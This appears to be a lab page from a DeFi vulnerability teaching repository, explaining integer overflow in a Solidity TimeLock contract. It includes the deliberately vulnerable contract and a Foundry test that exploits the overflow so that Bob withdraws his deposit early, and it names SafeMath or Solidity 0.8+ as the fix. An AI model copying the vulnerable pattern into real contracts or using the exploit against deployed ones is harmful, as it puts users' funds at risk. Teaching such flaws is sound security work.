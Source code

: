 # Integer Overflow

[Overflow.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Overflow.sol)   
**Name:** Integrate Overflow  
**Description:**  
The TimeLock has a flaw in the smart contract code that allows
an attacker to prematurely withdraw their deposited funds from the TimeLock contract.  
The vulnerability arises due to an overflow in the increaseLockTime function,
which manipulates the lock time in a way that causes it to wrap around to 0,
enabling the attacker to withdraw their funds before the actual waiting period expires.

**Scenario:**

This contract is designed to act as a time vault.
User can deposit into this contract but cannot withdraw for atleast a week.
User can also extend the wait time beyond the 1 week waiting period.

1. Alice and bob both have 1 Ether balance
2. Deploy TimeLock Contract
3. Alice and bob both deposit 1 Ether to TimeLock, they need to wait 1 week to unlock Ether
4. Bob caused an overflow on his lockTime
5, Alice can't withdraw 1 Ether, because the lock time not expired.
5. Bob can withdraw 1 Ether, because the lockTime is overflow to 0

**What happened?**  
Attack caused the TimeLock.lockTime to overflow,
and was able to withdraw before the 1 week waiting period.

**Impact:** Solidity < 0.8 and without SafeMath

**Mitigation:**

To mitigate the Overflow vulnerability, use SafeMath library or use Solidity > 0.8

**TimeLock Contract:**  
```
contract TimeLock {
    mapping(address => uint) public balances;
    mapping(address => uint) public lockTime;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = block.timestamp + 1 weeks;
    }

    function increaseLockTime(uint _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease; // vulnerable
    }

    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(
            block.timestamp > lockTime[msg.sender],
            "Lock time not expired"
        );

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}
```
****How to Test:****

forge test --contracts src/test/**Overflow.sol** -vvvv
```
// The testOverflow function, used to test for overflow vulnerabilities.
    function testOverflow() public {
        // Log Alice's balance.
        console.log("Alice balance", alice.balance);
        // Log Bob's balance.
        console.log("Bob balance", bob.balance);

        // Log the start of Alice's deposit.
        console.log("Alice deposit 1 Ether...");
        // Set the message sender to Alice.
        vm.prank(alice);
        // Alice deposits 1 ether to the TimeLock contract.
        TimeLockContract.deposit{value: 1 ether}();
        // Log Alice's new balance.
        console.log("Alice balance", alice.balance);

        // Log the start of Bob's deposit.
        console.log("Bob deposit 1 Ether...");
        // Set the message sender to Bob.
        vm.startPrank(bob);
        // Bob deposits 1 ether to the TimeLock contract.
        TimeLockContract.deposit{value: 1 ether}();
        // Log Bob's new balance.
        console.log("Bob balance", bob.balance);

        // Exploit: Increase the lock time so it overflows and becomes 0.
        TimeLockContract.increaseLockTime(
            type(uint).max + 1 - TimeLockContract.lockTime(bob)
        );

        // Log that Bob can now withdraw his funds because the lock time has overflowed.
        console.log(
            "Bob will successfully withdraw, because the lock time is overflowed"
        );
        // Bob withdraws his funds.
        TimeLockContract.withdraw();
        // Log Bob's new balance.
        console.log("Bob balance", bob.balance);
        // Stop Bob's prank.
        vm.stopPrank();

        // Start Alice's prank.
        vm.prank(alice);
        // Log that Alice can't withdraw her funds because the lock time has not expired.
        console.log(
            "Alice will fail to withdraw, because the lock time did not expire"
        );
        // Try to withdraw Alice's funds. This should revert because the lock time has not expired.
        TimeLockContract.withdraw(); // expect revert
    }
```
Red box: the TimeLock.lockTime to overflow  
Purple box: issue fixed.  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fd444eaff-b1ef-4171-8890-76186c4de58a%2FUntitled.png?table=block&id=6ec73bdb-955c-42b4-a7c6-5bce2bf97805&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)

